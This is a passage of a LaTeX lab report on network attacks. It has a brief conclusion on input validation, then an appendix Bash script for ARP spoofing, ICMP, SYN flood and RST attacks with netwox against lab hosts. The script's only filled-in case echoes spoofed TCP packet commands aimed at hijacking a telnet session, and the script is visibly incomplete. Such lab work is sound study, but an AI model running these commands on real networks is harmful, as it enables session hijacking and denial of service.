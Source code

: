 \documentclass[12pt, a4paper]{article}
\begin{document}
The only system that we could prove to be absolutely secure is the one that never accepts any input from a user - what is not the case in terms of Internet services.

It is therefore important to put a lot of thought into ``point of entries'' of our systems - weather this is a TCP socket or an input field on our website. We always should be validating the data coming to our software from the outside world and it cannot be stressed enough how important it is to use up to date components.

\vfill



\newpage
\begin{appendices}



\section{Shell script for performing attack\label{script1}}

\lstset{
	captionpos=b,
	frame=single,
	language=Bash,
	breaklines=true,
	caption="Script for performing ARP ICMP and SYN attacks",
	label=parta:script3
}
\begin{lstlisting}

#!/bin/bash
sudo -v

echo "Type 1 for ARP; 2 for ICMP; 3 for SYNflood; 4 for RST"
read answer

VICTIM_IP='10.0.2.4'
VICTIM_MAC='08:00:27:a6:eb:87'

ATTACKER_IP='10.0.2.6'
GATEWAY='10.0.2.1'
ATTACKER_MAC='08:00:27:ee:0d:0f'

PORT=23
INT='eth7'

ATT=netwox

# Netwox tool numbers
ARP_TOOL=33
SYN_TOOL=76
ICMP_TOOL=86
RST_TOOL=78

echo "Victim ip is " $VICTIM_IP
echo "Victim mac is " $VICTIM_MAC
echo "Gateway is" $GATEWAY
echo "Attacker IP is" $ATTACKER_IP
echo "Attacker MAC is" $ATTACKER_MAC

case $answer in
5)

echo '40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520802 --tcp-acknum 937587335 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --tcp-data "7077640d00" --spoofip "best"'

echo 'netwox 40 --ip4-dontfrag --ip4-offsetfrag 0 --ip4-ttl 64 --ip4-src 10.0.2.5 --ip4-dst 10.0.2.4 --ip4-opt "" --tcp-src 51296 --tcp-dst 23 --tcp-seqnum 906520807 --tcp-acknum 937587340 --tcp-ack --tcp-psh --tcp-window 6912 --tcp-opt "" --spoofip "best"'



\end{lstlisting}
\end{appendices}
\end{document}
